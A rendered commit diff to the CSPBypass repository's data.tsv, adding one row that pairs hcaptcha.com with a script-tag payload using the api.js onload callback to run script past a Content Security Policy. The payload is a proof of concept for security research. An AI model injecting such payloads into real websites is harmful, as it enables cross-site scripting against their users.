

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added hcaptcha.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 80: hcaptcha.com | <script src="https://hcaptcha.com/1/api.js?onload=alert&render=explicit"></script>
```
